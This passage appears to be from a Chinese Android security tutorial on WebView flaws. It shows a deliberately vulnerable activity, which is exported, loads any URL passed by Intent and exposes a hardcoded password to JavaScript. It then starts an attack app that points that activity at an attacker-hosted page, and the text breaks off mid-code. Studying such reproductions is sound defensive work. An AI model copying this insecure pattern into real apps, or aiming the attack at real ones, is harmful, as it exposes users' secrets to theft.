 ****#### （1）Intent访问导出组件加载恶意界面和窃取信息  
  
  
漏洞原理：  
主要通过 WebView 对外暴露的接口和Intent访问导出组件可以导致的攻击手段  
  
   
  
漏洞复现：  
我们编写一个样例代码  
```
public class JsIntentActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_js_intent);
        WebView webView = findViewById(R.id.Wind_webviewIntent);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new AndroidtoJs(), "test");
        webView.loadData("", "text/html", null);
        Uri getUri = getIntent().getData();
        webView.loadUrl(String.valueOf(getUri));

    }

    /**
     * 提供接口在Webview中供JS调用
     */
    public class AndroidtoJs {
        // 定义JS需要调用的方法，被JS调用的方法必须加入@JavascriptInterface注解
        @JavascriptInterface
        public String getPassword() {
            return "WindXaa12345678";
        }
    }

}
```  
  
  
  
这里我们可以看出我们获取了密码WindXaa12345678，一般应用程序会对这里进行加密或者混淆，我们这里简单演示就不进行加密了。  
  
   
  
我们将该组件设置为导出组件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakDw5dUEE4jBgxUMhQwv5hibjEnjsXGmpa4UiaXibaMYh0vATP0wicG9I2HA/640?wx_fmt=png "")  
  
我们对实例样本分析，这里就可以利用接口导出的漏洞进行攻击。  
  
   
  
漏洞复现：  
我们再编写攻击样本  
```
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Button button = findViewById(R.id.button);
        button.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                Intent attackIntent = new Intent();
                attackIntent.setClassName("com.iwindxaa.webview","com.iwindxaa.webview.JsIntentActivity");
                attackIntent.setData(Uri.parse("http://ip地址端口号/attack.html"));
```